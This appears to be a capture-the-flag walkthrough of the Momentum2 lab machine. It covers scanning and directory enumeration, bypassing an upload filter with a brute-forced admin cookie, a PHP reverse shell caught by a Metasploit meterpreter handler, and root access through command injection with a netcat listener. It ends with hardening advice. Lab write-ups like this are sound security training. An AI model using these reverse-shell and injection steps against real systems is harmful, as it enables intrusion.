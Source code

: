 # Momentum2 CTF – Summary Walkthrough  

A full text-based breakdown of the Momentum2 vulnerable machine.  
This box exposed weak cookie-based authentication, a bypassed upload filter, plaintext credentials, and a vulnerable Python script that led to root.  

---

##  Discovery  
- Ran nmap scan:  
  nmap -sV -A <ip>
  
Open ports:
22 (SSH)
80 (HTTP – Web server)

##  Enumeration
Ran gobuster:
gobuster dir -u http://<ip>/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,log,php,html,bak,zip

Found:
/index.html
/ajax.php
/ajax.php.bak
/dashboard.html (file upload)
/owls (uploads)

Inside /ajax.php.bak:
Learned about admin cookie requirement

Extra uppercase letter needed at end

New POST param secure=val1d required

##  Foothold
Used BurpSuite to modify upload request:
Added secure=val1d

Appended valid admin cookie (bruteforced with Burp Intruder)

Uploaded PHP reverse shell to /owls

Used Metasploit handler to catch shell:

msfconsole

use exploit/multi/handler

set payload php/meterpreter/reverse_tcp

set LHOST <attacker-ip>

set LPORT <attacker-port>

exploit

✅ Gained access as www-data

##  Privilege Escalation
Step 1 — www-data → athena

Found /home/athena/password-reminder.txt

Contained plaintext password

Switched user:
su athena

Step 2 — athena → root

sudo -l showed athena could run /home/team-tasks/cookie-gen.py as root

Script vulnerable to command injection: Injected reverse shell;

caught with netcat on attacker terminal: nc -lvnp <attacker-port>

✅ Root shell obtained

##  Recommendations
Authentication & Authorization
Avoid static cookie authentication

Enforce MFA for admin areas

Credential Security
Never store passwords in plaintext

Apply strict file permissions

Secure Coding
Sanitize Python scripts against command injection

Validate all user-controlled input


👉 View the Medium post here: [https://medium.com/@basitolasubomibalogun/momentum2-ctf-full-technical-walkthrough-af4c114c9de3]
